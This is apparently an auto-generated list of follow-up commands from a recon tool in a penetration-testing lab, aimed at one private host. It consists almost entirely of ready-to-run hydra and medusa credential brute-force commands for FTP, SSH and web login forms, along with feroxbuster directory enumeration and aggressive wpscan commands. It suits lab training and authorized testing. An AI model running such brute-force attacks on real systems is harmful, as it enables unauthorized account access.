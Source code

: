 [*] ftp on tcp/21

	[-] Bruteforce logins:

		hydra -L "/usr/share/seclists/Usernames/cirt-default-usernames.txt" -P "/usr/share/seclists/Passwords/darkweb2017-top100.txt" -e nsr -s 21 -o "/home/kali/Documents/Relia/results/192.168.224.245/scans/tcp21/tcp_21_ftp_hydra.txt" ftp://192.168.224.245

		medusa -U "/usr/share/seclists/Usernames/cirt-default-usernames.txt" -P "/usr/share/seclists/Passwords/darkweb2017-top100.txt" -e ns -n 21 -O "/home/kali/Documents/Relia/results/192.168.224.245/scans/tcp21/tcp_21_ftp_medusa.txt" -M ftp -h 192.168.224.245

[*] http on tcp/80

	[-] (feroxbuster) Multi-threaded recursive directory/file enumeration for web servers using various wordlists:

		feroxbuster -u http://192.168.224.245:80 -t 100 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x "txt,html,php,asp,aspx,jsp,xml,config,bak" -v -k -n -e -r -o /home/kali/Documents/Relia/results/192.168.224.245/scans/tcp80/tcp_80_http_feroxbuster_dirbuster.txt

	[-] Credential bruteforcing commands (don't run these without modifying them):

		hydra -L "/usr/share/seclists/Usernames/cirt-default-usernames.txt" -P "/usr/share/seclists/Passwords/darkweb2017-top100.txt" -e nsr -s 80 -o "/home/kali/Documents/Relia/results/192.168.224.245/scans/tcp80/tcp_80_http_auth_hydra.txt" http-get://192.168.224.245/path/to/auth/area

		medusa -U "/usr/share/seclists/Usernames/cirt-default-usernames.txt" -P "/usr/share/seclists/Passwords/darkweb2017-top100.txt" -e ns -n 80 -O "/home/kali/Documents/Relia/results/192.168.224.245/scans/tcp80/tcp_80_http_auth_medusa.txt" -M http -h 192.168.224.245 -m DIR:/path/to/auth/area

		hydra -L "/usr/share/seclists/Usernames/cirt-default-usernames.txt" -P "/usr/share/seclists/Passwords/darkweb2017-top100.txt" -e nsr -s 80 -o "/home/kali/Documents/Relia/results/192.168.224.245/scans/tcp80/tcp_80_http_form_hydra.txt" http-post-form://192.168.224.245/path/to/login.php:"username=^USER^&password=^PASS^":"invalid-login-message"

		medusa -U "/usr/share/seclists/Usernames/cirt-default-usernames.txt" -P "/usr/share/seclists/Passwords/darkweb2017-top100.txt" -e ns -n 80 -O "/home/kali/Documents/Relia/results/192.168.224.245/scans/tcp80/tcp_80_http_form_medusa.txt" -M web-form -h 192.168.224.245 -m FORM:/path/to/login.php -m FORM-DATA:"post?username=&password=" -m DENY-SIGNAL:"invalid login message"

	[-] (wpscan) WordPress Security Scanner (useful if WordPress is found):

		wpscan --url http://192.168.224.245:80/ --no-update -e vp,vt,tt,cb,dbe,u,m --plugins-detection aggressive --plugins-version-detection aggressive -f cli-no-color 2>&1 | tee "/home/kali/Documents/Relia/results/192.168.224.245/scans/tcp80/tcp_80_http_wpscan.txt"

[*] http on tcp/443

	[-] (feroxbuster) Multi-threaded recursive directory/file enumeration for web servers using various wordlists:

		feroxbuster -u https://192.168.224.245:443 -t 100 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x "txt,html,php,asp,aspx,jsp,xml,config,bak" -v -k -n -e -r -o /home/kali/Documents/Relia/results/192.168.224.245/scans/tcp443/tcp_443_https_feroxbuster_dirbuster.txt

	[-] Credential bruteforcing commands (don't run these without modifying them):

		hydra -L "/usr/share/seclists/Usernames/cirt-default-usernames.txt" -P "/usr/share/seclists/Passwords/darkweb2017-top100.txt" -e nsr -s 443 -o "/home/kali/Documents/Relia/results/192.168.224.245/scans/tcp443/tcp_443_https_auth_hydra.txt" https-get://192.168.224.245/path/to/auth/area

		medusa -U "/usr/share/seclists/Usernames/cirt-default-usernames.txt" -P "/usr/share/seclists/Passwords/darkweb2017-top100.txt" -e ns -n 443 -O "/home/kali/Documents/Relia/results/192.168.224.245/scans/tcp443/tcp_443_https_auth_medusa.txt" -M http -h 192.168.224.245 -m DIR:/path/to/auth/area

		hydra -L "/usr/share/seclists/Usernames/cirt-default-usernames.txt" -P "/usr/share/seclists/Passwords/darkweb2017-top100.txt" -e nsr -s 443 -o "/home/kali/Documents/Relia/results/192.168.224.245/scans/tcp443/tcp_443_https_form_hydra.txt" https-post-form://192.168.224.245/path/to/login.php:"username=^USER^&password=^PASS^":"invalid-login-message"

		medusa -U "/usr/share/seclists/Usernames/cirt-default-usernames.txt" -P "/usr/share/seclists/Passwords/darkweb2017-top100.txt" -e ns -n 443 -O "/home/kali/Documents/Relia/results/192.168.224.245/scans/tcp443/tcp_443_https_form_medusa.txt" -M web-form -h 192.168.224.245 -m FORM:/path/to/login.php -m FORM-DATA:"post?username=&password=" -m DENY-SIGNAL:"invalid login message"

	[-] (wpscan) WordPress Security Scanner (useful if WordPress is found):

		wpscan --url https://192.168.224.245:443/ --no-update -e vp,vt,tt,cb,dbe,u,m --plugins-detection aggressive --plugins-version-detection aggressive -f cli-no-color 2>&1 | tee "/home/kali/Documents/Relia/results/192.168.224.245/scans/tcp443/tcp_443_https_wpscan.txt"

[*] ssh on tcp/2222

	[-] Bruteforce logins:

		hydra -L "/usr/share/seclists/Usernames/cirt-default-usernames.txt" -P "/usr/share/seclists/Passwords/darkweb2017-top100.txt" -e nsr -s 2222 -o "/home/kali/Documents/Relia/results/192.168.224.245/scans/tcp2222/tcp_2222_ssh_hydra.txt" ssh://192.168.224.245

		medusa -U "/usr/share/seclists/Usernames/cirt-default-usernames.txt" -P "/usr/share/seclists/Passwords/darkweb2017-top100.txt" -e ns -n 2222 -O "/home/kali/Documents/Relia/results/192.168.224.245/scans/tcp2222/tcp_2222_ssh_medusa.txt" -M ssh -h 192.168.224.245

[*] http on tcp/8000

	[-] (feroxbuster) Multi-threaded recursive directory/file enumeration for web servers using various wordlists:

		feroxbuster -u http://192.168.224.245:8000 -t 100 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x "txt,html,php,asp,aspx,jsp,xml,config,bak" -v -k -n -e -r -o /home/kali/Documents/Relia/results/192.168.224.245/scans/tcp8000/tcp_8000_http_feroxbuster_dirbuster.txt

	[-] Credential bruteforcing commands (don't run these without modifying them):

		hydra -L "/usr/share/seclists/Usernames/cirt-default-usernames.txt" -P "/usr/share/seclists/Passwords/darkweb2017-top100.txt" -e nsr -s 8000 -o "/home/kali/Documents/Relia/results/192.168.224.245/scans/tcp8000/tcp_8000_http_auth_hydra.txt" http-get://192.168.224.245/path/to/auth/area

		medusa -U "/usr/share/seclists/Usernames/cirt-default-usernames.txt" -P "/usr/share/seclists/Passwords/darkweb2017-top100.txt" -e ns -n 8000 -O "/home/kali/Documents/Relia/results/192.168.224.245/scans/tcp8000/tcp_8000_http_auth_medusa.txt" -M http -h 192.168.224.245 -m DIR:/path/to/auth/area

		hydra -L "/usr/share/seclists/Usernames/cirt-default-usernames.txt" -P "/usr/share/seclists/Passwords/darkweb2017-top100.txt" -e nsr -s 8000 -o "/home/kali/Documents/Relia/results/192.168.224.245/scans/tcp8000/tcp_8000_http_form_hydra.txt" http-post-form://192.168.224.245/path/to/login.php:"username=^USER^&password=^PASS^":"invalid-login-message"

		medusa -U "/usr/share/seclists/Usernames/cirt-default-usernames.txt" -P "/usr/share/seclists/Passwords/darkweb2017-top100.txt" -e ns -n 8000 -O "/home/kali/Documents/Relia/results/192.168.224.245/scans/tcp8000/tcp_8000_http_form_medusa.txt" -M web-form -h 192.168.224.245 -m FORM:/path/to/login.php -m FORM-DATA:"post?username=&password=" -m DENY-SIGNAL:"invalid login message"

	[-] (wpscan) WordPress Security Scanner (useful if WordPress is found):

		wpscan --url http://192.168.224.245:8000/ --no-update -e vp,vt,tt,cb,dbe,u,m --plugins-detection aggressive --plugins-version-detection aggressive -f cli-no-color 2>&1 | tee "/home/kali/Documents/Relia/results/192.168.224.245/scans/tcp8000/tcp_8000_http_wpscan.txt"

